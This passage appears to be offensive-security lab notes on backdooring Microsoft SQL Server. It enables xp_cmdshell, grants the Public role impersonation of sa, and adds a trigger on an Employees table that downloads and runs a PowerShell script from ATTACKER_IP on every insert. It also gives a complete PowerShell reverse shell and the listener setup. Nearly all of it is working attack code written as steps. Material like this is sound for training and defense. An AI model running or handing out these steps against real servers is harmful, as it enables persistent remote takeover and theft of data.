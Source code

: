 **triggers**: Allow you to bind actions to be performed when specific events occur.

`xp_cmdshell` - Stored procedure that allows to run commands directly in the system's console, disabled by default.

In `Microsoft SQL Server Management Audio 18` click on `New Query`.

Enable Advanced Options and proceed to enable `xp_cmdshell`:

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

Grant all users the privileges to run as the sa user (sysadmin), which is the only user that can run `xp_cmdshell` by default:

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

Change to the HRDB database:

```sql
USE HRDB
```

Leverage `xp_cmdshell` to execute a malicious .ps1 file from the attacker's webserver, whenever an `INSERT` is made into the `Employees` table of HRDB database:

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Create a Powershell reverse shell on the attacker machine:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

`python3 -m http.server` - setup the server to download and execute the reverse shell.

`nc -lvp 4454` - In another terminal listen for a connection.